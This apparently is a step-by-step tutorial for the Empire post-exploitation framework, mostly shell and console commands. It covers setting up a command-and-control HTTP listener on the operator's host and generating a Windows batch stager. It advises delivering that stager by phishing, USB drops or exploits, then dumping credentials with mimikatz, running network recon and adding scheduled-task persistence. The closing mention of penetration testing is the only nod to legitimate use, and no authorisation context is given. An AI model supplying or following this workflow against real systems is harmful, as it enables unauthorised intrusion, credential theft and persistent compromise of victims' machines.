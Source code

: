 # Empire

Here's a detailed step-by-step tutorial on using **Empire**:

### Step 1: Install Empire

**Empire** is a popular tool, and installation requires setting up a few dependencies:

1. **System Requirements**:
   - Supported OS: Ubuntu, Debian, Kali Linux (recommended).
   - Ensure Python 3.8+ is installed.

2. **Install Dependencies**:
   ```bash
   sudo apt update
   sudo apt install -y git python3-pip python3-venv
   ```

3. **Clone the Empire Repository**:
   ```bash
   git clone https://github.com/BC-SECURITY/Empire.git
   cd Empire
   ```

4. **Set Up a Virtual Environment**:
   ```bash
   python3 -m venv empireenv
   source empireenv/bin/activate
   ```

5. **Install Empire**:
   ```bash
   pip install poetry
   poetry install
   poetry run server
   ```

6. **Start the Empire Server**:
   ```bash
   sudo ./empire
   ```
   This will start the server and drop you into the Empire CLI.

### Step 2: Configure Empire

1. **Access the CLI**:
   - After starting the Empire server, you can access the CLI by typing:
     ```bash
     ./empire client
     ```

2. **Set Up Listeners**:
   - Listeners are required to handle connections from the target systems.
   - Example using an HTTP listener:
     ```bash
     listeners
     uselistener http
     set Name http_listener
     set Host http://your_ip_address:port
     execute
     ```

3. **Create an Agent**:
   - Agents are used to interact with compromised machines.
   - Generate a payload to deploy an agent:
     ```bash
     usestager windows/launcher_bat
     set Listener http_listener
     generate
     ```
   - The above command generates a `.bat` file which can be executed on the target machine.

### Step 3: Deploying the Agent

1. **Transfer the Payload**:
   - Use various methods to deliver the payload to the target machine, such as phishing, USB drops, or exploiting vulnerabilities.

2. **Execute the Payload**:
   - Once the payload is on the target system, execute it to establish a connection with your Empire listener.

3. **Verify Connection**:
   - In the Empire CLI, you should see the agent checking in:
     ```bash
     agents
     ```

### Step 4: Post-Exploitation

1. **Interacting with the Agent**:
   - Select the agent:
     ```bash
     interact <agent_name>
     ```

2. **Run Commands**:
   - Use built-in modules to run various post-exploitation commands:
     ```bash
     usemodule privesc/mimikatz/logonpasswords
     execute
     ```
   - Other useful modules include:
     - **Discovery**: `usemodule situational_awareness/network/recon`
     - **Persistence**: `usemodule persistence/schtask`

3. **Manage Sessions**:
   - List active agents:
     ```bash
     agents
     ```
   - Kill a session:
     ```bash
     kill <agent_name>
     ```

### Step 5: Cleaning Up

1. **Remove Persistence**:
   - Ensure no backdoors are left behind using cleanup modules:
     ```bash
     usemodule management/cleanup
     execute
     ```

2. **Stop the Empire Server**:
   - To properly shut down Empire:
     ```bash
     exit
     ```

### Conclusion

Empire is a robust post-exploitation framework that supports Python-based agents and various modules to facilitate penetration testing activities. This guide covers the basics from installation to post-exploitation, but the real power of Empire comes from its flexible module system and the ability to customize operations based on the specific environment you're working in.
